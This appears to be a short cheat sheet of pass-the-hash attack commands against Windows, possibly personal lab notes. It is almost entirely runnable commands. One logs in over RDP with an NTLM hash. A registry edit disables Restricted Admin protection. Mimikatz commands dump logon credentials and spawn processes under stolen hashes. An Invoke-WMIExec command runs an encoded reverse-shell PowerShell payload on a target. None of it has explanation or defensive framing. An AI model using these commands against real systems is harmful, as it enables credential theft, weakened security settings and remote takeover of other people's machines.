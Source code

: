 ### PTH using RDP:

```bash
xfreerdp /v:10.129.25.120 /u:administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453
```

Restricted Admin Mode - Disabled by default

To Enable: 

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Then PTH for RDP should work

### Mimikatz:

Find hashes:

```bash
mimikatz.exe
privilege::debug
token::elevate
sekurlsa::logonPasswords full
```

PTH using Mimikatz:

```bash
mimikatz.exe privilege::debug "sekurlsa::pth /user:<USER> /rc4:<NTLM> /domain:<DOMAIN> /run:cmd.exe" exit
```

#### PTH using PowerShell

```bash
import-module .\Invoke-WMIExec.ps1
Invoke-WMIExec -Target <DC/PC-NAME> -Domain <DOMAIN> -Username <USER> -Hash <NTLM> -Command "powershell -e {revshells.com/PowerShell#3}
```
